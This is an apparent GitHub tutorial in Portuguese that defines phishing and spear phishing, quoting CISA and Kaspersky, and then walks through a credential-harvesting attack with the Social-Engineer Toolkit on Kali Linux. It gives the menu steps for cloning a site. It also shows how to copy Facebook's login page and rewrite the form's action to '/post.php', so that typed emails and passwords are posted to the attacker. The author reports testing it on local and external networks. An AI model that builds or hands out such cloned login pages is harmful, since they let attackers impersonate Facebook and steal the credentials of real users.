

# O que é Phishing?

De acordo com a America's Cyber Defense Agency:
> "Phishing é um tipo de ataque de engenharia social frequentemente usado para roubar dados de usuário, incluindo credenciais de login e números de cartão de crédito. Isso ocorre quando um atacante, se passando por uma entidade confiável, engana a vítima para abrir um email, mensagem instantânea ou mensagem de texto mal-intencionada que parece legítima. O objetivo é enganar a vítima para revelar informações sensíveis ou clicar em um link mal-intencionado que instala malware ou a direciona para um site fraudulento."

No geral, phishing é um tipo de ataque que se enquadra como engenharia social, no qual se visa roubar dados como credenciais. Este ataque pode ocorrer por diversos meios, como SMS, e-mail, links maliciosos, etc.

## Spear Phishing

De acordo com a Kaspersky:
> "Enquanto phishing é um termo geral para ataques cibernéticos realizados por e-mail, SMS ou chamadas telefônicas, alguns podem se perguntar como são chamados ataques de phishing direcionados. A resposta é spear phishing. Em termos mais simples, trata-se de ataques cibernéticos altamente personalizados que visam indivíduos ou empresas específicas. Normalmente, esses ataques são realizados por meio de e-mails de spear phishing que parecem legítimos para o destinatário e os incentivam a compartilhar detalhes confidenciais com o invasor. Embora o objetivo dos ataques de spear phishing geralmente seja roubar informações como credenciais de login ou informações de cartão de crédito, alguns são projetados para infectar dispositivos com malware. Frequentemente, hackers e hacktivistas patrocinados pelo governo são os perpetradores de golpes de spear phishing. No entanto, criminosos cibernéticos individuais também realizam esses ataques com a intenção de perpetrar roubo de identidade ou fraude financeira, manipulando preços de ações, cometendo espionagem ou roubando dados confidenciais para revendê-los a governos, empresas privadas ou outros indivíduos interessados."

## Ferramentas para Testes de Phishing

Para testes em escala, vale ressaltar que existem ferramentas mais apropriadas como o Gophish, Evilginx2, HiddenEye, King Phisher, etc. Mas para propósitos conceituais, iremos usar a ferramenta SET (Social-Engineer Toolkit) que já vem disponível em distros como o Kali Linux.

### Ferramentas Utilizadas

- **Kali Linux**
- **SET (Social-Engineer Toolkit)**

### Configurando o Phishing no Kali

*  **Acessar o Kali Linux:**
*	**Sudo su** 
*	**Setoolkit** 
*	**Social-Engineering Attacks**
*	**Website Attack Vectors**
*	**Credential Harvester Attack Method**
*	**Site Cloner**
*	**Ip-local (aonde as informações devem ser enviadas)**
*   **Url do site a ser clonado**


## troubleshooting
O codigo fonte da pagina do facebook é protegido, o que significa que le não é montado como um unico arquivo HTML, mas sim com varios scripts, assim nossa ferramenta não consegue clonar o codigo fonte da pagina de login do facebook.


Uma solução é criarmos nosso proprio template, para isso podemos usar a extensão SingleFile (firefox)


Após isso precisamos modificar algumas partes do código, para que fiquem compativeis com o SET


**codigo original**
```html
<form class=_9vtf data-testid=royal_login_form action="/login/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;next" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="https://www.facebook.com/recover/initiate/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzIxMzM2NDE4LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;ars=facebook_login&amp;next">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# ajaxify=/reg/spotlight/ id=u_0_0_6w data-testid=open-registration-form-button rel=async>Create new account</a></div></form>
```

***codigo modificado***
```html
<form class=_9vtf data-testid=royal_login_form action="/post.php" method=post id=u_0_2_fU><div><div class=_6lux><input type=text class="inputtext _55r1 _6luy" name=email id=email data-testid=royal_email placeholder="Email or phone number" autofocus aria-label="Email or phone number" value></div><div class=_6lux><div class="_6luy _55r1 _1kbt" id=passContainer><input type=password class="inputtext _55r1 _6luy _9npi" name=pass id=pass data-testid=royal_pass placeholder=Password aria-label=Password><div class="_9ls7 hidden_elem sf-hidden" id=u_0_3_QO></div></div></div></div><div class=_6ltg><button value=1 class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name=login data-testid=royal_login_button type=submit id=u_0_5_Lx>Log In</button></div><div class=_6ltj><a href="#">Forgot password?</a></div><div class=_8icz></div><div class=_6ltg><a role=button class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href=# id=u_0_0_6w data-testid=open-registration-form-button>Create new account</a></div></form>
```

Agora devemos selecionar a opção 3 "Custom import" (também precisamos salvar o template como "index.html" dentro do diretório que iremos expeficiar ao SET)




Foram efetuados testes tanto na rede local, quanto em rede externa. 
Vale resautar que a eficacia de pishings e engenharia social estão ligadas ao tanto de informações disponiveis, então também podemos assosiar a OSINT

Fontes:

www.kaspersky.com.br/resource-center/definitions/spear-phishing

www.cisa.gov/news-events/news/avoiding-social-engineering-and-phishing-attacks
